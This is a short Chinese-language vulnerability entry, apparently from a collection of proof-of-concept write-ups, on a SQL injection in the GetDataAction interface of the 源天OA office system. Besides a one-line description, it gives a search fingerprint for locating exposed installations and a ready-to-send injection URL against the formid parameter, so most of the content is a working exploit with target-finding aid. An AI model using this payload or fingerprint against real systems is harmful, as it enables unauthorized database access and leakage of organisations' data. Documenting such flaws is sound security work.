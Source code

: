 # 源天OA GetDataAction SQL注入漏洞

## 漏洞描述

源天OA GetDataAction 接口存在SQL注入漏洞，攻击者通过漏洞可以获取服务器数据库中的数据，造成信息泄漏

## 漏洞影响

<a-checkbox checked>源天OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="/vmain/login.jsp"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1663996343936-60b88623-1eb8-4674-8c7d-a02711370fe7.png)

验证POC

```sql
/ServiceAction/ServiceAction/com.velcro.base.GetDataAction?action=checkname&formid=-1%27%20OR%207063%20IN%20(SELECT%20(sys.fn_varbintohexstr(hashbytes(%27MD5%27,%271%27))))%20AND%20%27a%27=%27a
```

![img](../../../.vuepress/public/img/1663996456021-f64802b1-a401-4357-a37e-7bb2a8e1d52e.png)
